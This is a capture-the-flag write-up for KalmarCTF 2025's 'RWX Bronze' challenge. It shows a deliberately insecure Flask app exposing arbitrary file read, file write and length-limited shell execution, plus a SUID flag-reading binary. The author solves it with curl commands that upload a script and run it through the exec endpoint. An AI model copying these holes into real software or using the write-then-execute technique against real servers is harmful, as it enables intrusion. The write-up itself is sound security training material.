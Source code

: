 ```yaml
---
title: "RWX Bronze"
description: "We give you file read, file write and code execution. But can you get the flag? Let's start out gently.\n\nNOTE: If you get a 404 error, try using one of the endpoints described in the handout!" 
pubDate: 2025-03-11
ctf: "KalmarCTF 2025"
category: "misc"
author: "sealldev"
section: "CTFs"
image: "images/25-kalmar/icon.png"
---
```


### Initial Look

We are supplied a `rwx-bronze.zip`, which extracts to a `handout` folder.

Given two main scripts of interest, `app.py` and `would.c`. The flag is stored in `/flag.txt` inside the container as will be outlined later.

`app.py`:
```python
from flask import Flask, request, send_file
import subprocess

app = Flask(__name__)

@app.route('/read')
def read():
    filename = request.args.get('filename', '')
    try:
        return send_file(filename)
    except Exception as e:
        return str(e), 400

@app.route('/write', methods=['POST'])
def write():
    filename = request.args.get('filename', '')
    content = request.get_data()
    try:
        with open(filename, 'wb') as f:
            f.write(content)
        return 'OK'
    except Exception as e:
        return str(e), 400

@app.route('/exec')
def execute():
    cmd = request.args.get('cmd', '')
    if len(cmd) > 7:
        return 'Command too long', 400
    try:
        output = subprocess.check_output(cmd, shell=True)
        return output
    except Exception as e:
        return str(e), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=6664)
```

Quick summary
- Running with `Flask`.
- We have 3 endpoints: 
  - `/read` for file read
  - `/write` for file write
  - and `/exec` which can execute commands (up to 7 characters).

`would.c`:
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    char full_cmd[256] = {0}; 
    for (int i = 1; i < argc; i++) {
        strncat(full_cmd, argv[i], sizeof(full_cmd) - strlen(full_cmd) - 1);
        if (i < argc - 1) strncat(full_cmd, " ", sizeof(full_cmd) - strlen(full_cmd) - 1);
    }

    if (strstr(full_cmd, "you be so kind to provide me with a flag")) {
        FILE *flag = fopen("/flag.txt", "r");
        if (flag) {
            char buffer[1024];
            while (fgets(buffer, sizeof(buffer), flag)) {
                printf("%s", buffer);
            }
            fclose(flag);
            return 0;
        }
    }

    printf("Invalid usage: %s\n", full_cmd);
    return 1;
}
```

Seems to execute the file read of `/flag.txt` (when specified with the correct `full_cmd`) with the required permissions, the Dockerfile outlines what we lack:
```dockerfile
FROM ubuntu:latest

RUN apt-get update && \
    apt-get install -y python3 python3-pip gcc
RUN pip3 install flask==3.1.0 --break-system-packages

WORKDIR /
COPY flag.txt /
RUN chmod 400 /flag.txt

COPY would.c /
RUN gcc -o would would.c && \
    chmod 6111 would && \
    rm would.c

WORKDIR /app
COPY app.py .

RUN useradd -m user
USER user

CMD ["python3", "app.py"]
```

- `would.c` is compiled with the root used, and has SUID binary permissions.
- `/flag.txt` is inaccessible to `user`

### Working around the character limit

Due to the 7 character limit, my first idea was to use the unlimited write space to add some payloads to `~/`.

I ended up writing a small script:
```bash
#!/bin/bash
whoami
```

And using `/write` with curl to upload it.

```bash
$ curl -X POST "https://<instance>.inst2.chal-kalmarc.tf/write?filename=/home/user/a" -T test.sh
OK
```

We can then execute it with `sh`:
```bash
$ curl "https://<instance>.inst2.chal-kalmarc.tf/exec?cmd=sh%20~/a"
user
```

Cool! So can we execute the `would` binary?

### Solution

I make a new script to execute `would`:
```bash
#!/bin/sh
/would you be so kind to provide me with a flag
```

I upload it to `/home/user/a`

```bash
$ curl -X POST "https://<instance>.inst2.chal-kalmarc.tf/write?filename=/home/user/a" -T test.sh
OK
```

Then I execute it with `sh`:
```bash
$ curl "https://<instance>.inst2.chal-kalmarc.tf/exec?cmd=sh%20~/a"
kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}
```

Flag: `kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}`